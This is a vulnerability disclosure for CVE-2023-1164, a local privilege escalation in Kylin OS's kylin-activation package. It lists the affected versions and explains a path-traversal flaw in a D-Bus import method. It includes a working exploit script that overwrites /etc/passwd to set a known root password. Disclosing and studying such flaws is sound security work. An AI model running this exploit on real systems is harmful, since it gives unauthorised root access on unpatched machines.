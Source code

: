 # Kylin OS privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: Kylin Software Co., Ltd.（https://www.kylinos.cn/）

### CVE ID
CVE-2023-1164
## Report
### Describe

The kylin-activation package is a component used by Kylin OS for authorization verification and activation. The software package does not strictly restrict the legality of the import file operation, so the directory where the system configuration file is located is imported into an illegal configuration file, resulting in the elevation of local privileges of ordinary users.


### Hazard level
High
### Affected version
- Desktop：kylin-activation < 1.3.11-23
- Server：kylin-activation < 1.30.10-5.p23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exp.sh
```
echo "[*] Trying to overwrite passwd file ..."
cp /etc/passwd /tmp/passwd
sed -i 's/root:x:0:0:root/root:\$1\$nrDGqnHa\$EhGl0D2EBPmnQTC2hGvgl.:0:0:root/g' /tmp/passwd
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
echo '[*] Try login with root / 123qwe!@#QWE'
```
### Vuln details
org.freedesktop.activation::import_auth_file receive files

![1](https://raw.githubusercontent.com/i900008/vulndb/main/imgs/1.png)

If the file exists, the service copies the file to /etc, causing arbitrary files to be written in the /etc directory

![1](https://raw.githubusercontent.com/i900008/vulndb/main/imgs/2.png)
